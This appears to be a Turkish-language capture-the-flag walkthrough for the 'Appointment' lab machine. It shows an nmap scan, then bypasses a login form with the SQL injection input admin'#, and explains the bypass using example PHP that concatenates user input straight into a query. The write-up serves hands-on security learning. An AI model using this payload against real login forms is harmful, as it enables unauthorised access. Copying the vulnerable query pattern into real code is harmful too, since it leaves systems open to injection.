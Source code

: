 # Appointment

!!! info "Target IP Address"

    10.129.219.149

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.219.149 -Pn -sV -p 80
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:27 +03
Nmap scan report for 10.129.219.149
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.43 seconds
```

Web tarayıcısında [http://10.129.219.149](http://10.129.219.149) adresine git. Giriş formunda kullanıcı adı kısmına `admin'#` ve parola kısmına boşluk olmayan herhangi bir karakter gir.

Kullanıcı adı kısmına girilen bu değer sayesinde yanlış parola ile dahi giriş yapılabilir. Çünkü kullanıcı girdisini doğru şekilde kontrol etmeyen bir PHP kodu aşağıdaki gibi gözükebilir:

```php title="example.php" linenums="1" hl_lines="1"
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
$result=mysql_query($sql);
$count=mysql_num_rows($result);
if ($count==1){
    $_SESSION['username'] = $username;
    $_SESSION['password'] = $password;
    header("location:home.php");
}
```

Kullanıcı adı olarak `admin'#` değeri verildiğinde SQL satırı aşağıdaki gibi olur:

```php
$sql="SELECT * FROM users WHERE username='admin'# AND password='$password'";
```

Bu sorgu hatasız çalışacağından `$count` değişkenin değeri `1` olur ve giriş başarılı olur.
